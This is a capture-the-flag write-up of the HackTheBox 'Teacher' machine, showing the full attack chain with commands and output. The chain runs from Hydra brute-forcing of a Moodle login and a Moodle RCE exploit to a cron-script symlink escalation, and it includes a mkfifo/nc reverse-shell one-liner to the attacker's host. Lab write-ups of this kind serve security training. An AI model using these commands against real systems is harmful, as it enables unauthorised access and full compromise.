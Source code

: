 ```yaml
---
layout: post
title: Teacher
tags: [OSCP, Writeup, Linux, PHP, CMS Exploit, Web, File Misconfiguration]
description: "Teacher write-up"
---
```


![Teacher logo](/assets/imgs/teacher/teacher.png)

### This is an easy linux box

## Tools used

------

- 


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA teacher 10.10.10.153 -v

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

Here’s what nmap teaches us :

- port 80 (HTTP) - Apache 2.4.25

Since there is only the web port open, let's see it :

![Website](/assets/imgs/teacher/website.PNG)

Let search for files/directories :

```
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.153/FUZZ -e .txt,.php,.html -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.153/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.html              [Status: 200, Size: 8022, Words: 514, Lines: 250]
gallery.html            [Status: 200, Size: 8254, Words: 359, Lines: 205]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 313, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10]
phpmyadmin              [Status: 403, Size: 297, Words: 22, Lines: 12]
moodle                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```



![Moodle CMS](/assets/imgs/teacher/moodle.PNG)





```
user = Giovanni Chhatta
```

![Easy as 123](/assets/imgs/teacher/easy_as_123.PNG)



```
wget -r http://10.10.10.153/
```



```
grep -Ri pass
[...]
images/5.png:I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
[...]
```



```
crunch 15 15 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Th4C00lTheacha@ -o passwords.txt
Crunch will now generate the following amount of data: 1504 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 94 

crunch: 100% completed generating output
```



```
hydra -l giovanni -P ./passwords.txt 10.10.10.153 http-post-form '/moodle/login/index.php:username=^USER^&password=^PASS^:Invalid login' -Vv -q
[...]
[80][http-post-form] host: 10.10.10.153   login: giovanni   password: Th4C00lTheacha#
[...]
```



![Easy as 123](/assets/imgs/teacher/connected.PNG)



```
nc -lvp 1234
```



```
php 46551.php url=http://10.10.10.153/moodle/ user=giovanni pass='Th4C00lTheacha#' ip=10.10.14.4 port=1234 course=2

*------------------------------*
* Noodle [Moodle RCE] (v3.4.1) *
*------------------------------*

[!] Make sure you have a listener
[!] at 10.10.14.4:1234

[*] Logging in as user giovanni with password Th4C00lTheacha# 
[+] Successful Login
[>] Moodle Session 83n6n9g0q1q2e499ag2588mqq3 
[>] Moodle Key bZKU9HH0wV 
[*] Loading Course ID 2 
[+] Successfully Loaded Course
[*] Enable Editing
[+] Successfully Enabled Course Editing
[*] Adding Quiz
[+] Successfully Added Quiz
[*] Configuring New Quiz
[+] Successfully Configured Quiz
[*] Loading Edit Quiz Page 
[+] Successfully Loaded Edit Quiz Page
[*] Adding Calculated Question 
[+] Successfully Added Calculation Question
[*] Adding Evil Question 
[+] Successfully Created Evil Question
[*] Sending Exploit

[>] You should receive a reverse shell attempt from the target at 10.10.14.4 on port 1234 
[>] If connection was successful this program will wait here until you close the connection.
[>] You should be able to Ctrl+C and retain the connection through netcat.
```



```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.153: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.153] 38516
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```



```
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
[...]
```



![Easy as 123](/assets/imgs/teacher/database.PNG)

![Easy as 123](/assets/imgs/teacher/sha_crack.PNG)



```
www-data@teacher:/var/www/html/moodle$ su giovanni
Password: 
giovanni@teacher:/var/www/html/moodle$ whoami
giovanni
```



![Easy as 123](/assets/imgs/teacher/pspy.PNG)



```
giovanni@teacher:~/work/courses$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```



## Exploit

------







```
giovanni@teacher:~/work/tmp$ ln -s /root
```

Wait one minute :

```
ls -l /
[...]
drwxrwxrwx  3 root root  4096 Nov  8  2018 root
[...]
```

Get a shell :

```
giovanni@teacher:~/work/tmp$ ln -s / exploit
```

Wait one minute and I can edit anything :

```
giovanni@teacher:/$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 12345 >/tmp/f
```

```
nc -lvp 12345
```

Wait again and 1 minute later I get the reverse shell back !

```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.153: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.153] 38278
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```



## Flags

------

### User.txt

```
giovanni@teacher:~$ cat user.txt 
fa9ae187462530e841d9e61936648fa7
```

### Root.txt

```
giovanni@teacher:/root$ cat root.txt
4f3a83b42ac7723a508b8ace7b8b1209
```